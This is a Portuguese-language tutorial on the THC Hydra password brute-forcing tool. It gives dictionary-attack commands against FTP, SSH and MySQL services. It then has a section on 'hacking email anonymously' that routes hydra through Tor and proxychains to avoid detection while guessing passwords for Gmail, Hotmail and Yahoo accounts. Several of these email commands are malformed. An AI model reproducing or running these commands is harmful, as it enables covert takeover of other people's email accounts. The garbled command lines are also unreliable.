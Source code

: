 # THC-hydra
O THC Hydra é uma ferramenta que usa dicionário de força bruta para ataques e tentativas de várias combinações de senhas e logins contra um alvo.  Esta ferramenta de hacking também suporta um vasto conjunto de protocolos incluindo Mail (POP3, IMAP, etc.), bancos de dados, LDAP, SMB, VNC e SSH.

1. Comandos do Hydra

hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ftp
hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 ssh
hydra –L /tmp/wordlist.txt -P /tmp/wordlist.txt 192.168.0.101 mysql
hydra –l admin -P /tmp/wordlist.txt 192.168.0.101 ftp

Percebe-se que nos três primeiros exemplos acima, tem-se a execução do Hydra para fazer brute force nos serviços de ftp, ssh e mysql. Todavia, nos três exemplos anteriores não se sabe o usuário e nem a senha do serviço que se está atacando. Já no quarto exemplo já se sabe pelo menos o nome do usuário, admin.

2. Como Hackear Email em modo anônimo com o THC Hydra

Quando caro leitor aqui quiser hackear um sistema de email sem ser detectado pelo alvo, é sempre importante ter instalado um TOR no seu sistema. Se você utiliza Linux, dê o seguinte comando para instalar o TOR:

apt-get install tor

Depois disso, deve-se configurar o proxychains colocando as saídas das conexões para a porta 9050 (porta de saída do TOR). Aqui estamos partindo do ponto que o leitor saiba configurar o proxychains.

Após fazer todo o processo de configuração do proxychains, digita-se os seguintes comandos para o anonimato.

Para explorar Gmail
proxychains hydra -l teste@gmail.com -P password.lst -s 465 -S -v -V -t 1 s
smtp.gmail.com

Para explorar Hotmail
proxychains hydra -l teste@hotmail. com/teste@outlook.com -P password.lst -s 587 -S
-v -V -t 1 s smtp.live.com

Para explorar Yahoo
proxychains hydra -l teste@yahoo.com -P password.lst -s 587 -S -v -V -t 1 s
smtp.mail.yahoo.com

* Obs: É importante observar que o parâmetro -P maúsculo serve para que o atacante possa passar algum argumento, que neste caso seria uma lista de senha. Caso o a letra p fosse minúscula, a ferramenta iria gerar e testar bilhões de senhas e isso levaria muito tempo em um Pentest.

O hydra pode ser utilizado no terminal e de modo gráfico quanto no Linux utilizando o comando “sudo apt-get install hydra” quanto em outros sistemas operacionais.

Consulte e instale o hydra através do site: http://sectools.org/tool/hydra/
